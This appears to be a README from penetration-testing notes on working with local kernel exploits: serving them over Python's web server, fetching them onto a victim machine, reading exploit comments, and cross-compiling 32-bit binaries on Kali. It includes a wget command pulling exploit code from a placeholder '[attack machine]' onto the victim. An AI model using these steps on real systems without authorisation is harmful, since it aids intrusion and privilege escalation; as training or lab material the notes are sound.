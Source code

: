 # Working with exploits
This section is mostly about local kernel exploits, because they're annoying. Remote python exploits are usually point-and-shoot and web exploits are covered in (exploitation/web-application/README.md).

## Transferring exploits
The quickest way to transfer an exploit is to create a folder for your exploits and expose it with Python's webserver:
```
python -m SimpleHTTPServer 80
```
The port defaults to 8000 but 80 and 443 are usually accessible. Make sure your port choice doesn't conflict with your shell. On the victim machine, grab files:
```
wget http://[attack machine]/exploit.c
```

## Compiling exploits
First, the usual warning about randomly downloading exploits from the internet: watch out for backdoors. [Exploit-DB](https://www.exploit-db.com/) is reliable.

Second, always read the exploit comments carefully:

* Compiler options to use
* Architecture of the victim machine (32-bit or 64-bit)
* Steps to complete on the victim machine
* Code modifications

Third, if you get error messages during compilation or runtime, google them. Usually this is because the binary was compiled on the attack machine and there are quirks in architecture that can be solved by modifying compile options.

## Compiling 32-bit exploits on a 64-bit machine
If a C compiler is missing or inaccessible on your victim machine, you can compile the exploits on your Kali machine but you need some extra libraries on Kali:
```
apt-get install gcc-multilib
apt-get install g++-multilib
```
You will also need to add the `-m32` flag to your compile command.

